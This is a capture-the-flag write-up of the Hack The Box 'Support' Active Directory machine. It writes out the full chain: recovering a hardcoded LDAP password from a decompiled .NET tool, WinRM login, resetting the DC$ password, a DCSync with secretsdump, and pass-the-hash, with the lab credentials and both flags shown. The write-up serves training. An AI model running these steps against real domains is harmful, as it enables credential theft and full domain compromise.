










<p align="center">
  
</p>

---

<div align="center">

<table>
  <tr>
    <td align="left" ><b>🎯 Target</b></td>
    <td>Hack The Box - Support</td>
  </tr>
  <tr>
    <td align="left" ><b>👨‍💻 Author</b></td>
    <td><code><br>sonyahack1</br></code></td>
  </tr>
  <tr>
    <td align="left" ><b>📅 Date</b></td>
    <td>10.08.2025</td>
  </tr>
  <tr>
    <td align="left" ><b>📊 Difficulty</b></td>
    <td>Easy</td>
  </tr>
  <tr>
    <td align="left" ><b>📁 Category</b></td>
    <td>Active Directory / Privilege Escalation</td>
  </tr>
  <tr>
    <td align="left" ><b>💻 Platform</b></td>
    <td>Windows</td>
  </tr>
</table>

</div>

---
## Table of Contents

- [Summary](#-attack-implemented)
- [Reconnaissance](#%EF%B8%8F--reconnaissance)
- [Initial Access](#-initial-access)
- [Vertical Privilege Escalation](#%EF%B8%8F----vertical-privilege-escalation)
- [Conclusion](#-conclusion)

---

<h2 align="center"> ⚔️  Attack Implemented</h2>

<div align="center">

<table width="100%">
  <thead>
    <tr>
      <th>Tactics</th>
      <th>Techniques</th>
      <th>Description</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td align="left"><b>TA0043</b> – Reconnaissance</td>
      <td align="left"><b>T1595</b> – Active Scanning</td>
      <td>Reconnaissance and information gathering on the target system</td>
    </tr>
    <tr>
      <td align="left"><b>TA0007</b> – Discovery</td>
      <td align="left"><b>T1135</b> – Network Share Discovery</td>
      <td>A non-standard network share with a custom program was found</td>
    </tr>
    <tr>
      <td align="left"><b>TA0006</b> – Credential Access</td>
      <td align="left"><b>T1552</b> – Unsecured Credentials</td>
      <td>The password for the service account was obtained from the program source code</td>
    </tr>
    <tr>
      <td align="left"><b>TA0007</b> – Discovery</td>
      <td align="left"><b>T1087</b> – Account Discovery</td>
      <td>Listing system users</td>
    </tr>
    <tr>
      <td align="left"><b>TA0001</b> – Initial Access</td>
      <td align="left"><b>T1078</b> – Valid Accounts</td>
      <td>Login with valid credentials</td>
    </tr>
    <tr>
      <td align="left"><b>TA0004</b> – Privilege Escalation</td>
      <td align="left"><b>T1098</b> – Account Manipulation</td>
      <td>Reset password from account</td>
    </tr>
    <tr>
      <td align="left"><b>TA0006</b> – Credential Access</td>
      <td align="left"><b>T1003</b> – OS Credential Dumping</td>
      <td>Extracting password hashes from the system</td>
    </tr>
    <tr>
      <td align="left"><b>TA0008</b> – Lateral Movement</td>
      <td align="left"><b>T1021</b> – Remote Services</td>
      <td>Connecting via winrm using a valid account</td>
    </tr>
  </tbody>
</table>

<br>

<table>
  <tr>
    <th>User Flag</th>
    <td><code>flag{ac603aefe3f446533205f2bb9c890369}</code></td>
  </tr>
  <tr>
    <th>Root Flag</th>
    <td><code>flag{ad13eec04dfcb18df6af1cf0e178dfe5}</code></td>
  </tr>
</table>

</div>

---

> Adding the machine's IP address to `/etc/hosts`:

```bash

echo '10.10.11.174 support.htb' | sudo tee -a /etc/hosts && ping support.htb

10.10.11.174 support.htb

PING support.htb (10.10.11.174) 56(84) bytes of data.
64 bytes from support.htb (10.10.11.174): icmp_seq=1 ttl=127 time=41.9 ms
64 bytes from support.htb (10.10.11.174): icmp_seq=2 ttl=127 time=41.8 ms
64 bytes from support.htb (10.10.11.174): icmp_seq=3 ttl=127 time=41.8 ms
^C
--- support.htb ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2004ms
rtt min/avg/max/mdev = 41.762/41.815/41.851/0.038 ms

```

---
## 🕵️  Reconnaissance

> We determine the number of open ports and services running on them using a **two-stage** scan with the `nmap` utility:

```bash

sudo nmap -p- -vv -n -T5 --min-rate=500 support.htb -oN list_open_ports.txt | grep -E '^[0-9]+/tcp[[:space:]]' | cut -d '/' -f1 | paste -sd, - > ports.txt

```
```bash

sudo nmap -p$(cat ports.txt) -A -n -vv support.htb -oN full_scan_results.txt

```
```bash

Discovered open port 53/tcp on 10.10.11.174
Discovered open port 135/tcp on 10.10.11.174
Discovered open port 445/tcp on 10.10.11.174
Discovered open port 139/tcp on 10.10.11.174
Discovered open port 593/tcp on 10.10.11.174
Discovered open port 49674/tcp on 10.10.11.174
Discovered open port 636/tcp on 10.10.11.174
Discovered open port 49664/tcp on 10.10.11.174
Discovered open port 3269/tcp on 10.10.11.174
Discovered open port 49678/tcp on 10.10.11.174
Discovered open port 464/tcp on 10.10.11.174
Discovered open port 49740/tcp on 10.10.11.174
Discovered open port 9389/tcp on 10.10.11.174
Discovered open port 3268/tcp on 10.10.11.174
Discovered open port 5985/tcp on 10.10.11.174
Discovered open port 88/tcp on 10.10.11.174
Discovered open port 49702/tcp on 10.10.11.174
Discovered open port 49667/tcp on 10.10.11.174
Discovered open port 389/tcp on 10.10.11.174

```
> Scanning shows a large number of open ports. I will highlight the most important and interesting ones for us:

- `53 (dns)` - Own dns works;
- `88 (kerberos)` - AD authentication protocol;
- `135 (msrpc)` - msrpc Endpoint Mapper;
- `139/445 (smb)` - NetBIOS Session Service, NetLogon / File Share Access Service;
- `389/636 (ldap/ldaps)` - AD directory protocol;
- `464 (kpasswd)` - Kerberos Password Change Service;
- `3268/3269 (global ldap)` - Extended ldap; for global catalog access from client to controller;
- `5985 (winrm)` - For remote connection to the system;

> Based on the presence of these services, we can conclude that we are dealing with a `Domain Controller`. I will make a request to `rootDSE` via `ldap`:

```bash

ldapsearch -x -H ldap://support.htb -s base

```
<p align="center">
 
</p>

> A request to `ldap RootDSE` shows the presence of the `NTDS Settings` attribute, which exists only on domain controllers and points to the `Active Directory`
> directory service working with the `NTDS.dit` database. I also see `dnsHostName: dc.support.htb` - I add the address to `/etc/hosts`.

> We log in to the `SMB` service under a `guest` account and display a list of the network share:

```bash

nxc smb support.htb -u 'guest' -p '' --shares

SMB         10.10.11.174    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.10.11.174    445    DC               [+] support.htb\guest:
SMB         10.10.11.174    445    DC               [*] Enumerated shares
SMB         10.10.11.174    445    DC               Share           Permissions     Remark
SMB         10.10.11.174    445    DC               -----           -----------     ------
SMB         10.10.11.174    445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.174    445    DC               C$                              Default share
SMB         10.10.11.174    445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.174    445    DC               NETLOGON                        Logon server share
SMB         10.10.11.174    445    DC               support-tools   READ            support staff tools
SMB         10.10.11.174    445    DC               SYSVOL                          Logon server share

```
> I see a non-standard network share `support-tools` with `READ` rights. Let's connect to it:

```bash

smbclient.py support/guest@support.htb

```
```bash

# shares
ADMIN$
C$
IPC$
NETLOGON
support-tools
SYSVOL
# use support-tools
# ls
drw-rw-rw-          0  Wed Jul 20 13:01:06 2022 .
drw-rw-rw-          0  Sat May 28 07:18:25 2022 ..
-rw-rw-rw-    2880728  Sat May 28 07:19:19 2022 7-ZipPortable_21.07.paf.exe
-rw-rw-rw-    5439245  Sat May 28 07:19:55 2022 npp.8.4.1.portable.x64.zip
-rw-rw-rw-    1273576  Sat May 28 07:20:06 2022 putty.exe
-rw-rw-rw-   48102161  Sat May 28 07:19:31 2022 SysinternalsSuite.zip
-rw-rw-rw-     277499  Wed Jul 20 13:01:07 2022 UserInfo.exe.zip
-rw-rw-rw-      79171  Sat May 28 07:20:17 2022 windirstat1_1_2_setup.exe
-rw-rw-rw-   44398000  Sat May 28 07:19:43 2022 WiresharkPortable64_3.6.5.paf.exe

```
> I see a set of programs for system administrators and technical support. But one of them is a custom implementation - `UserInfo.exe.zip`.

---
> [!IMPORTANT]
Honestly, this archive `UserInfo.exe.zip` caught my eye as soon as I looked through the contents of the network share because I knew for sure
even without searching in Google that such a utility simply does not exist in official sources.

---

> Download this archive for further analysis:

```bash

# mget UserInfo.exe.zip
[*] Downloading UserInfo.exe.zip
# exit

```
> Unpack the archive and see what's there:

```bash

unzip UserInfo.exe.zip

```

```bash

ls -alh

total 944K
drwx------ 2 sonyahack1 sonyahack1 4.0K Aug 18 13:44 .
drwx------ 3 sonyahack1 sonyahack1 4.0K Aug 18 13:44 ..
-rw-rw-rw- 1 sonyahack1 sonyahack1  98K Mar  1  2022 CommandLineParser.dll
-rw-rw-rw- 1 sonyahack1 sonyahack1  22K Oct 22  2021 Microsoft.Bcl.AsyncInterfaces.dll
-rw-rw-rw- 1 sonyahack1 sonyahack1  47K Oct 22  2021 Microsoft.Extensions.DependencyInjection.Abstractions.dll
-rw-rw-rw- 1 sonyahack1 sonyahack1  83K Oct 22  2021 Microsoft.Extensions.DependencyInjection.dll
-rw-rw-rw- 1 sonyahack1 sonyahack1  63K Oct 22  2021 Microsoft.Extensions.Logging.Abstractions.dll
-rw-rw-rw- 1 sonyahack1 sonyahack1  21K Feb 19  2020 System.Buffers.dll
-rw-rw-rw- 1 sonyahack1 sonyahack1 138K Feb 19  2020 System.Memory.dll
-rw-rw-rw- 1 sonyahack1 sonyahack1 114K May 15  2018 System.Numerics.Vectors.dll
-rw-rw-rw- 1 sonyahack1 sonyahack1  18K Oct 22  2021 System.Runtime.CompilerServices.Unsafe.dll
-rw-rw-rw- 1 sonyahack1 sonyahack1  26K Feb 19  2020 System.Threading.Tasks.Extensions.dll
-rwxrwxrwx 1 sonyahack1 sonyahack1  12K May 27  2022 UserInfo.exe
-rw-rw-rw- 1 sonyahack1 sonyahack1  563 May 27  2022 UserInfo.exe.config
-rw-rw-r-- 1 sonyahack1 sonyahack1 271K Aug 18 13:43 UserInfo.exe.zip

```

> I see the binary file `UserInfo.exe`. It is intended to be executed in the `Windows` environment. Let's list the imported functions from `dll` libraries via `rabin2`:

```bash

rabin2 -i UserInfo.exe

[Imports]
nth vaddr      bind type lib         name
―――――――――――――――――――――――――――――――――――――――――
1   0x00402000 NONE FUNC mscoree.dll _CorExeMain

```
> From the result we see that the function is imported from the `mscoree.dll` library. This confirms the fact that this is a `.NET` assembly.

---

`Note`: `.NET` - It is a platform from Microsoft for developing and running applications primarily in the `C#` programming language.

---

> Since this program is in `.NET`, it can be easily decompiled into readable `C#` code for further analysis.

> There are actually many tools for implementing this, but for speed I will use the CLI version of the `ILSpy` decompiler - `ilspycmd`:

```bash

ilspycmd -p -o reverse_userinfo UserInfo.exe

```
```bash

ls -alh

total 32K
drwxrwxr-x 6 sonyahack1 sonyahack1 4.0K Aug 18 14:00 .
drwx------ 3 sonyahack1 sonyahack1 4.0K Aug 18 14:00 ..
-rw-rw-rw- 1 sonyahack1 sonyahack1  563 May 27  2022 app.config
drwxrwxr-x 2 sonyahack1 sonyahack1 4.0K Aug 18 14:00 Properties
drwxrwxr-x 2 sonyahack1 sonyahack1 4.0K Aug 18 14:00 UserInfo
drwxrwxr-x 2 sonyahack1 sonyahack1 4.0K Aug 18 14:00 UserInfo.Commands
-rw-rw-r-- 1 sonyahack1 sonyahack1  608 Aug 18 14:00 UserInfo.csproj
drwxrwxr-x 2 sonyahack1 sonyahack1 4.0K Aug 18 14:00 UserInfo.Services

```
> At the output we get restored code files in `C#`.

> We search for useful files by key phrases via `grep`:

```bash

grep -RniE 'Password|ConnectionString|DirectoryEntry|NetworkCredential|Aes|ProtectedData' reverse_userinfo

```
<p align="center">
 
</p>


> There is some interesting code in the `Protected.cs` file. It is worth studying in more detail:

<p align="center">
 
</p>

> This algorithm is responsible for storing and decrypting the password. **In simple terms, the logic of this code is as follows**:

---
> [!IMPORTANT]
We have a string `0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E` which contains an encrypted array of bytes in `base64` encoding.
using the `Convert.FromBase64String` method we decode this string and save its contents in `array`. The main encryption method is contained
in the `for (int i = 0; i < array.Length; i++)` loop. Each byte of encrypted data from the `array` array undergoes a double operation with `XOR`.
First, we cyclically iterate over the corresponding byte of the `armando` key, which was previously converted to the byte sequence `61 72 6d 61 6e 64 6f`
using the `Encoding.ASCII.GetBytes` method and stored in `key`. After that, we perform another `XOR` operation with the constant `0xDF`. After the loop is
completed, the original byte array is converted to a regular string `Encoding.Default.GetString(array2)` and the result is stored in `array2` as a regular password.

---

> The process of encrypting a password in the code is divided into two consecutive stages:

- `1)` The program takes the password and converts it into an array of bytes using a **double** `XOR` operation: the `armando` key and the `0xDF` constant
- `2)` the resulting code is encoded in base64.

> To decrypt the password, we use `CyberChef` and implement the reverse sequence of actions:

<p align="center">
 
</p>

> At the output we get the password.

> We can find out from which account this password is by using the `password spraying` technique via the `netexec` utility for all users, or open
> the source code of the second file `LdapQuery.cs`, which will be much easier:

<p align="center">
 
</p>

> The code clearly shows that the program, when executed, makes a request via `LDAP` using the `ldap` service account and substituting the same encrypted password
> from the `Protected.cs` file that we just received.

---
> [!IMPORTANT]
In many organizations, administrators create and configure special accounts for applications or services that access Active Directory through LDAP. The purpose of such an account
is to give the application access to information about users, groups, and computers.

---

> We check authorization using the received credentialsye - `ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz`:

```bash

nxc smb support.htb -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'

SMB         10.10.11.174    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.10.11.174    445    DC               [+] support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz

```

> Ok. Authorization was successful. Since this is an `ldap` service account I can upload information about any objects to `Active Directory`.

---
## 🔓 Initial Access

> The `nmap` scan earlier showed that we have an open port `5985 (winrm)`. We need to find out who is a member of the `Remote Management Users` group:

```bash

ldapsearch -x -H ldap://support.htb -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb" "(cn=Remote Management Users)"

```
```bash

member: CN=support,CN=Users,DC=support,DC=htb

```

> User `support` is a member of this group. Display information about his account:

```bash

ldapsearch -x -H ldap://support.htb -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb" "(sAMAccountName=support)"

```
<p align="center">
 
</p>

> I see the `info` field whose value - is the `user's password`. This is our `Initial Access`.

> We have a valid account - `support:Ironside47pleasure40Watchful` so we connect via `winrm`:

```bash

evil-winrm -i support.htb -u 'support.htb\support' -p 'Ironside47pleasure40Watchful'

```
```bash

*Evil-WinRM* PS C:\Users\support\Documents> whoami
support\support
*Evil-WinRM* PS C:\Users\support\Documents>

```
> I get the **first flag** in the directory - `C:\Users\support\Desktop`:

```bash

*Evil-WinRM* PS C:\Users\support\Desktop> type user.txt
ac603aefe3f446533205f2bb9c890369
*Evil-WinRM* PS C:\Users\support\Desktop>

```

> user flag - `ac603aefe3f446533205f2bb9c890369`

<div align="center">

<table>
  <tr>
    <td align="center">
      <b>🟢 User flag</b><br/>
      <code>ac603aefe3f446533205f2bb9c890369</code>
    </td>
  </tr>
</table>

</div>

---
## 🔑⬆️    Vertical Privilege Escalation

> Let's display information about the user's privileges and groups:

```bash

*Evil-WinRM* PS C:\Users\support\Desktop> whoami /all

```

<p align="center">
 
</p>

> I see an interesting group called `Shared Support Accounts`. It is not a default group. I need to find out what privileges it has.

> We already have a valid `ldap` account so I can load all the domain information into `BloodHound`:

```bash

sudo python3 bloodhound.py -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -d support.htb --nameserver 10.10.11.174 -c ALL --zip -op support.htb

```

<p align="center">
 
</p>

> From the graph we see that the group has the `Generic All` privilege over the `dc.support.htb` object

---
> [!IMPORTANT]
`Generic All` - This is full control over the object including password reset. Our potential vector for `Privilege Escalation`.

---

> Let's list the properties of the `computer` object that has the `dnsHostName = dc.support.htb` attribute:

```bash

Get-ADComputer -LDAPFilter "(dNSHostName=dc.support.htb)" -Properties sAMAccountName,distinguishedName,servicePrincipalName,userAccountControl

```
<p align="center">
 
</p>

> I see the account name under which the machine is authenticated - `DC$`.

> Having `Generic All` privileges, simply reset the password for `DC$`:

```bash

Set-LocalUser -Name 'DC$' -Password (ConvertTo-SecureString "NewPass123!" -AsPlainText -Force)

```

> Since we have a compromised `Domain Controller` account we can simply request the **NTLM hash** of the **Domain Administrator** password
> via the `MS-DRSR` replication protocol which is used to replicate data between `Domain Controllers` using the `DCSync` technique.

---
> [!IMPORTANT]
`DCSync` - This is a technique where an attacker with DS-Replication-Get-Changes, DS-Replication-Get-Changes-All replication rights calls a
special DrsGetNCChanges function in the MS-DRSR (DRSUAPI) protocol and requests replication data from a domain controller. The domain controller trusts
the attacker with these privileges and returns the requested data.

---

> But since we already have a `Domain Controller` account (we are the `Domain Controller`), we don't need to imitate anything. We already have all the necessary rights:

```bash

secretsdump.py 'support.htb/DC$:NewPass123!'@10.10.11.174 -just-dc-user Administrator

```
```bash

Administrator:500:aad3b435b51404eeaad3b435b51404ee:bb06cbc02b39abeddd1335bc30b19e26:::

```

> We use the received hash to connect to the system via `winrm`:

```bash

evil-winrm -i support.htb -u 'support.htb\Administrator' -H 'bb06cbc02b39abeddd1335bc30b19e26'

```
```bash

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
support\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents>

```
> I get the **last flag** in the directory - `C:\Users\Administrator\Desktop`:

```bash

*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
ad13eec04dfcb18df6af1cf0e178dfe5
*Evil-WinRM* PS C:\Users\Administrator\Desktop>

```
> root flag - `ad13eec04dfcb18df6af1cf0e178dfe5`

<div align="center">

<table>
  <tr>
    <td align="center">
      <b>🟢 Root flag</b><br/>
      <code>ad13eec04dfcb18df6af1cf0e178dfe5</code>
    </td>
  </tr>
</table>

</div>

---
## 🧠 Conclusion

> During the attack, reconnaissance of the target system was conducted, which led to the discovery of a non-standard network share containing a set of tools for the `Windows infrastructure`,
> intended for **system administrators** and **technical support**. Among these tools, an archive with a custom (unofficial) program, `UserInfo.exe`, compiled as a `.NET` assembly, was found.
> After decompiling this program, a password for an `LDAP service account` was recovered from the source code, which was then used to enumerate `Active Directory` objects. During the enumeration,
> the `support user account` was discovered. This account belonged to the `Remote Management Users` group and contained a `password` in its info field, which provided `initial access` to the system.
> Further enumeration within the `Windows environment` revealed that the support user was a member of a non-standard group, `Shared Account Operators`, which had `GenericAll` privileges over the
> Domain Controller `dc.support.htb`. By resetting the `DC$` account password, the `DCSync` technique was successfully executed to obtain the `NTLM hash` of the Administrator account, resulting in a
> complete compromise of the system.

---
> [!NOTE]
The most difficult part of the whole process was the stage with decompiling the program `UserInfo.exe`. Since I don't know the programming language `C#` at all, it was quite difficult for me to
analyze the source code. I had to spend quite a bit of time before I figured out how the encryption algorithm works.

---

<p align="center">
 
</p>
